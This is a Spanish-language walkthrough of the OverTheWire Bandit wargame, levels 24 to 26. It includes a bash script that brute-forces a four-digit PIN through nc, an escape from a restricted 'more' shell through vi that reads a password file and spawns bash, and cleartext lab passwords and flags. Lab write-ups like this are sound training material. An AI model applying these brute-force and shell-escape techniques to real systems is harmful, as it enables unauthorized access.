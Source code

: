 ```shell
'ALTERNATIVA'

#!/bin/bash
 
bandit24='gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8'
 
for i in {0..9}{0..9}{0..9}{0..9}
# for i in {0000..9999}
do
    echo $bandit24' '$i >> bandit25pin
done
cat ./bandit25pin | nc localhost 30002 >> ./bandit25pass
tail -n 5 ./bandit25pass
```

> Flag: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

> Level 25-26

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

```bash
 # Para saber que tipo de shell tiene un usuario en linux:
getent passwd nombre_usuario

getent passwd bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext

# Analizamos el showtext:

#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0



```

Para lograr conectanos y escapar de more, tenemos que hacer mas perqueña la terminal, hasta que aparezca la restriccion de tamaño de more (--more--40%)

Despues, escapamos del editor, que ya esta corriendo como bandit26:

```shell
v
:e /etc/bandit_pass/bandit26
s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

'Para lograr la shell como usuario bandit26'

:set shell=/bin/bash
:shell 
bandit26@bandit:

```
